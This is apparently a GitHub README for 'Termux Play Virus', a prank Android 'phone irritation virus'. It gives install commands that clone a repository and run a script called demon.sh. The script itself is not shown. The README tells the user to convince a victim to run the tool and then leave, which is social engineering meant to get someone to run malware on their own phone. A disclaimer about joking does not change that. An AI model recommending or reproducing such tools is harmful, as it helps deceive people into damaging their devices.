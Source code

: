 <p align="center">
  <img height="200" wight="200" src="satanvirus.jpg" alt="logo">  
</p>

<h1 align="center">Termux Play Virus</h1>
<p align="center">
  Phone irritation virus: This virus was designed for the purpose of joking only. Do not use it to harm others, use it to please god
</p>

# Commands 👨‍💻
### You have to convince the victim to run this tool then leave and enjoy 🦠
```
$ apt-get update -y
```
```
$ apt-get upgrade -y
```
```
$ pkg install git -y
```
```
$ pkg install bash -y
```
```
$ git clone https://github.com/black-demon-dr7/Play-Virus.git
```
```
$ cd Play-Virus
```
```
$ bash demon.sh
```
